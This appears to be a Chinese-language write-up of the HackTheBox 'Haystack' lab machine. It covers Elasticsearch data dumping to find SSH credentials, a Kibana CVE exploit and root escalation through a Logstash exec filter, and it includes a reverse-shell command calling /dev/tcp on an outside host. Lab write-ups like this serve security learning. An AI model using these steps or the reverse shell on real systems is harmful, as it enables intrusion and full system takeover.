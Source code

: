 ```yaml
---
title: hackthebox-Haystack
mathjax: false
date: 2019-11-03 19:40:25
categories:
 - 渗透测试
 - hackthebox
tags:
 - hackthebox
---
```


![](/img/haystack/1.png)

<!-- more -->

* 使用`nmap`扫描到端口22、80、9200（ElasticSearch 6.4.2）

```
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open  http    nginx 1.12.2
| http-methods: 
|_  Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
```

* 访问 http://10.10.10.115 得到图片needle.jpg，`Stegsolve`查看图片可见base64的提示，解码得西班牙语得提示

![needle](/img/haystack/needle.jpg)

```
la aguja en el pajar es "clave"
the needle in the haystack is "key"
```

* 使用[`elasticsearch-dump`](https://github.com/taskrabbit/elasticsearch-dump)获取9200的quotes数据，在数据中搜索可得到两个`base64`加密的数据（搜索`base64`得特征字符，比如`=`），分别为用户名和密码，解码为security和spanish.is.key

```sh
elasticdump --input=http://10.10.10.115:9200/quotes --output=quotes.json --type=data
```

* 使用`ssh`登录获得user.txt

![](/img/haystack/2.png)

* 使用`scp`上传[`LinEnum`](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)获取目标机器信息，首先发现`logstash`以root权限运行，查看/etc/logstash/conf.d/的配置文件，发现其需要root或kibana权限才可以查看

![](/img/haystack/3.png)

* 利用[CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246)获取kibana的shell

![](/img/haystack/4.png)

* 查看/etc/logstash/conf.d/的配置文件，发现`logstash`每10s读取/opt/kibana/logstash_*的内容并在过滤后执行，则`echo "Ejecutar comando : bash -i >& /dev/tcp/10.10.14.52/22222 0>&1" > /opt/kibana/logstash_ert`（可自行搭建`kibana`，使用其[grok调试器](https://www.jianshu.com/p/443f1ea7b640)测试过滤效果），等待一段时间获取返回的shell

```json
cat /etc/logstash/conf.d/filter.conf
filter {
	if [type] == "execute" {
		grok {
			match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
		}
	}
}

cat /etc/logstash/conf.d/input.conf
input {
	file {
		path => "/opt/kibana/logstash_*"
		start_position => "beginning"
		sincedb_path => "/dev/null"
		stat_interval => "10 second"
		type => "execute"
		mode => "read"
	}
}

cat /etc/logstash/conf.d/output.conf
output {
	if [type] == "execute" {
		stdout { codec => json }
		exec {
			command => "%{comando} &"
		}
	}
}
```

* 获得root.txt

![](/img/haystack/5.png)